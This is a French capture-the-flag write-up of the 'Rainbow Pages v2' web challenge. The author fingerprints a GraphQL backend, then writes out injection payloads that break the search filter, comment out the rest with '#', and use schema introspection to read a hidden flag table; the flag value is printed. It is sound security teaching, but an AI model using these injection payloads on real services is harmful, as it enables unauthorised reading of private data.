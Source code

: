 Rainbow Pages v2 - Writeup
==========================
*shd33*


Le challenge se présente comme une suite au challenge Rainbow Pages. C'est important, car c'est en étudiant comment la version 1 a pu évoluer en version 2 que j'ai pu déduire comment la v2 a été codée.  
La différence principale entre les deux versions semble se situer dans la manière dont le client effectue sa requête :
- En v1, il l'envoyait toute entière `{ allCooks (filter: { firstname: {like: "%'+searchInput+'%"}}) { nodes { firstname, lastname, speciality, price }}}`.
- En v2, il envoie directement `searchInput` au serveur.
Tout laisse à penser que la requête est à peu près la même, à celà près que `searchInput` n'y est plus intégré côté client mais côté serveur, ce qui réduit notre marge de manœuvre.

### 1. Contexte

Pour v1, il m'avait suffi de deviner comment modifier la requête pour obtenir le flag. Pour v2, j'ai besoin de mieux comprendre comment sera traîtée ma requête pour tenter une injection.

La première étape de la résolution a donc été de comprendre quelle est la technologie utilisée côté serveur pour répondre aux requêtes effectuées par le client.
Pour cela, le plus simple est sans doute de provoquer une erreur. J'observe la requête de v1. `%"` devrait provoquer une erreur de syntaxe, si ces caractères ne sont pas échappés. J'ajoute un `console.log(data)` pour voir la réponse du serveur, et je tente.  
Ça marche ! Une injection est visiblement possible. J'obtiens alors la jolie erreur :
`"Syntax Error: Cannot parse the unexpected character "%"."`. Après une rapide recherche google, je comprends que j'ai affaire à GraphQL (technologie que je ne connaissais pas).

### 2. Recherches, 1ère tentative

Je me documente alors sur GraphQL pour en savoir plus sur la syntaxe utilisée.

Je tente une première injection sur la base de la requête utilisée en v1 :
```
{ allCooks (filter: { firstname: {like: "%
------------------
Thibault%"}}) { nodes { firstname, lastname, speciality, price }}, allFlags {nodes {flag}}, allCooks (filter: { firstname: {like: "%Thibault
------------------
%"}}) { nodes { firstname, lastname, speciality, price }}}
```

Celle-ci fonctionne bien en v1, mais me renvoie une erreur en v2. Je me rends alors compte que non seulement la v2 a été rendue plus sécurisée, mais elle a également été améliorée en intégrant la possibilité de chercher les chefs par nom de famille.

La manière la plus simple de faire cela semble être de rajouter une condition `or` dans la requête GraphQL.
Une requête de la forme suivante, donc :
`{ allCooks (filter: { or: [{firstname: {like: "%'+searchInput+'%"}}, {lastname: {like: "%'+searchInput+'%"}}]}) { nodes { firstname, lastname, speciality, price }}}`.

Ainsi, le `searchInput` du client serait injecté à 2 endroits différents, ce qui explique l'erreur lors de la première tentative d'injection.

### 3. 2ème tentative

La solution à cela : commenter la fin de la requête, comme il est classique de le faire poue les injections SQL.
Le symbole de commentaire ici est `#`.

Ainsi, 2ème tentative d'injection :
```
{ allCooks (filter: { or: [{firstname: {like: "%
------------------
Thibault%"}}]}) { nodes { firstname, lastname, speciality, price }}, allFlags {nodes {flag}}}#
------------------
...
```

Le serveur me renvoie l'erreur suivante :
`"Cannot query field "allFlags" on type "Query". Did you mean "allCooks"?"`.
Ce n'est plus une erreur de syntaxe : l'injection est passée ! :)
Mais je n'ai toujours pas le flag :(

### 4. Introspection

Je regarde de plus près : la table `Flag` n'existe plus dans notre base de données... aurait-elle été renommée ? :O

Sans doute, mais heuresement pour moi GraphQL propose une service "d'introspection" !
Et donc... une injection introspective :
`Thibault%"}}]}) { nodes { firstname, lastname, speciality, price }}, __schema {types {name}}}#`
GraphQL obéit, et me renvoie son schéma interne. La table `Flag` a en effet été renommée en `FlagNotTheSameTableName`.
Je devine un `flagNotTheSameFieldName` pour le champ, et je retente mon injection :
```
{ allCooks (filter: { or: [{firstname: {like: "%
------------------
Thibault%"}}]}) { nodes { firstname, lastname, speciality, price }}, allFlagNotTheSameTableNames {nodes {flagNotTheSameFieldName}}}#
------------------
...
```
Bingo !
GraphQL me renvoie gentiment le flag :
`flagNotTheSameFieldName: "FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}"`.